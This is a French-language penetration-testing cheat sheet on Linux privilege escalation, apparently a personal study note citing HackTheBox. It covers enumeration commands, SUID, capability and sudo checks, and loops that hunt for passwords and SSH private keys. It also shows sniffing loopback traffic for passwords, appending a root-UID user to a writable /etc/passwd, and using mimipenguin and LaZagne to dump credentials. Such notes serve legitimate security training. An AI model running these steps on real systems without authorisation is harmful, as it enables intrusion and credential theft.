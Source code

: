 # Privilèges
Tout est un fichier, même le matériel. Ils répondent donc aux permissions standards de fichiers
r -	read
w	- write
x	- execute
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-rw-r----- 1 root shadow 1751 May  2 09:31 /etc/shadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Propriétaire: root - groupe: shadow
Premier trait est le type. Suivis de 3 groupes de 3. Propriétaire, Groupe du Propriétaire, autre

# Énumération
* Nom et groupe:  ```id```
* usagers: 	```cat /etc/passwd```
	* login_name : encrypted_password : UID : GID : comment : home folder : login_shell
	* encrypted_password x si dans /etc/shadow
	* nologin si peut pas se connecter
* nom de machine: ```hostname```
* système:
	```shell
	cat /etc/issue
	cat /etc/os-release
	uname -a
	arch
	```
* Processus:
```shell
ps aux
#suivre en temps réel
watch -n 1 "ps -aux | grep pass"
#Très efficace si accessible
./pspy
```
##  Tâches
 **cron** est l'ordonanceur de tâches sous Linux
* ```ls -lah /etc/cron*```   cron.daily, cron.hourly, ...
* ```crontab -l``` 	tâches de l'utilisateur courrant (utiliser aussi avec sudo)
* ```grep "CRON" /var/log/syslog```
* ```tail -f /var/log/cron.log```

## Applications et packages
```dpkg -l```	Debian

## Fichiers en écriture
* dossiers ```find / -writable -type d 2>/dev/null```
* fichiers ```find / -writable -type f 2>/dev/null```

## Disques
```mount```
```cat /etc/fstab```	fichiers montés au lancement
```lsblk```	disques et partitions disponibles

## Kernel modules
```lsmod```			liste
```/sbin/modinfo [module]```	détails

## SUID et GUID
Permet d'exécuter comme propriétraire ou groupe du fichier. “s” ou “S” dans les droits
SUID ```find / -perm -u=s -type f 2>/dev/null```
GUID ```find / -perm -g=s -type f 2>/dev/null```

## Capabilities
Permet de donner certains droits pour certaines actions dangereuses au processus
```/usr/sbin/getcap -r / 2>/dev/null```
**cap_setuid+ep** est très intéressant

## SUDO
Dans /etc/sudoers
Droits de l'usager courant: ```sudo -l```

**utiliser GTFOBins pour savoir comment les abuser**

## Traces usagers
Vérifier dossiers utilisateurs
Variables d'environment: ```env```
**.bashrc** fichier de config bash
**.bash_history** pour l'historique bash

## Réseau
Adapteurs réseau:
* ```if config```
* ```ip a```
routes: 
* ```route```
* ```routel```
connexions actives:
* ```netstat```
* ```ss -anp```
Autres:
```
ss -t state listening
netstat -antup
netstat -tunlp
```
tcpdump peut attraper du traffique intéressant
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
tcpdump -i lo -A | grep "pass"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Firewall
```iptables``` (requière root)
```iptables-persistent``` package sauvegarde dans fichiers ```/etc/iptables``` par défaut
commande ```iptables-save``` sauvarge certains fichiers


https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://book.hacktricks.xyz/linux-hardening/privilege-escalation

# Automatisation
/usr/bin/unix-privesc-check
LinEnum
/usr/share/peass/linpeas/linpeas*

# Syslog
```cat /var/log/syslog | grep -i <ce que tu veux>```

# Recherche de fichiers
Nom du fichier
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#récursive sans casse
find /mnt/Finance/ -name *cred*
#simple
find *cred*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cherche dans le contenu
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
grep -rn /mnt/Finance/ -ie cred
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Combinaisons
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#HtB cherche .conf .config  .cnf
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
#HtB Cherche user, password ou pass dans les .cnf
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
#HtB Cherche dans fichier db
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
#clef SSH (Utilise mots contenue dans une clef)
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
#mots intéressant dans les logs
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Mot de passe
Dans /etc/shadow, mais /etc/passwd prend précéence si il contient un hash.
Si on peut écrire, il est facile de créer un nouvel utilisateur ou changer un mot de passe

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#générer un hash de mot de passe avec algorithm crypt
openssl passwd w00t
#hash généré: Fdzt.eqJQ4s0g
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Utiliser mimipenguin pour extraire des hash en mémoire, doit être admin
```shell-session
sudo python3 mimipenguin.py
sudo bash mimipenguin.sh 
```
Lazagne pour extraire hash de différentes sources
```shell-session
sudo python laZagne.py all
```